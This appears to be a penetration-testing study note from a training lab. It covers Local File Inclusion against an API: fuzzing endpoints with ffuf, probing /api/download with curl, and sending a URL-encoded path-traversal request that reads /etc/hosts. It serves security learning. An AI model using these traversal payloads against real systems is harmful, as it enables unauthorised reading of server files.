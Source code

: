 # Local File Inclusion (LFI)
Refer to [[CBBH Modules (For Testing)/4. File & SSRF Testing/3. File Inclusions/1. File Disclosure/LFI - Local File Inclusion]] for in-depth attacks.

An attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`.
## Example Scenario
Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.
```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```

It looks like `/api/download` is a valid API endpoint. We can interact with it to look for anything good:
```shell
curl http://<TARGET IP>:3000/api/download
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.
```shell
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```